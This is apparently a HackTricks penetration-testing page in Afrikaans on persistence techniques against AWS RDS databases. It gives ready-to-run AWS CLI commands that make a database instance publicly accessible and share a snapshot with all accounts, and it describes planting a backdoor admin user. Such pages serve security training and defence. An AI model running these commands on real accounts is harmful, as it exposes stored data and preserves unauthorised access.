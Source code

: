 # AWS - RDS Persistensie

{{#include ../../../banners/hacktricks-training.md}}

## RDS

Vir meer inligting, kyk:

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### Maak instansie publiek toeganklik: `rds:ModifyDBInstance`

'n Aanvaller met hierdie toestemming kan **'n bestaande RDS-instansie wysig om publieke toeganklikheid te aktiveer**.
```bash
aws rds modify-db-instance --db-instance-identifier target-instance --publicly-accessible --apply-immediately
```
### Skep 'n admin gebruiker binne die DB

'n Aanvaller kan eenvoudig **'n gebruiker binne die DB skep** sodat selfs as die meester gebruiker se wagwoord gewysig word, hy **nie die toegang verloor** tot die databasis nie.

### Maak snapshot publiek
```bash
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
```
{{#include ../../../banners/hacktricks-training.md}}
